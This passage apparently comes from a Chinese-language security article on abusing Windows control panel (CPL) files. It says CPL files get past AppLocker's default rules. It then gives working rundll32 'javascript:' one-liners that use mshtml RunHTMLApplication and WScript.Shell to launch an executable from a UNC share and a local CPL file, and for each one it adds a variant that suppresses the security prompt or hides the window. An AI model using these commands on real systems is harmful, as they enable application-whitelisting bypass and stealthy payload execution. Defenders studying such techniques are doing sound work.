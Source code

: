生成dll文件，后缀名改为cpl  
正常运行，正常退出

0x05 Bypass Windows AppLocker
=============================

* * *

之前介绍过《Bypass Windows AppLocker》  
开启默认规则后会拦截exe和脚本的执行，那么cpl文件呢？  
当然可以绕过 Windows AppLocker的限制规则

如图

![Alt text](http://drops.javaweb.org/uploads/images/9bc1fe87fcfefed8c7a12ba6f4a7efd6249f0c17.jpg)

0x06 rundll32
=============

* * *

补充一些rundll32调用js代码的细节;

**执行远程exe,会弹框拦截：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("\\\\127.0.0.1\\c$\\test\\test.exe")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/623040b862e2f5cda9f164fc89c6e89910d48da0.jpg)

**解决方法：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("\\\\127.0.0.1\\c$\\test\\test.exe")

```

如图![Alt text](http://drops.javaweb.org/uploads/images/2b9db29a8ecd59d044334126bf32ae6af5b182c0.jpg)

**执行本地cpl文件，会弹框提示无法识别文件后缀名：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("c:\\test\\cpl.cpl")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/211f1aee8fc238d336613399129384704d4f85eb.jpg)

**解决方法：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("cmd /c c:\\test\\cpl.cpl",0,true)

```
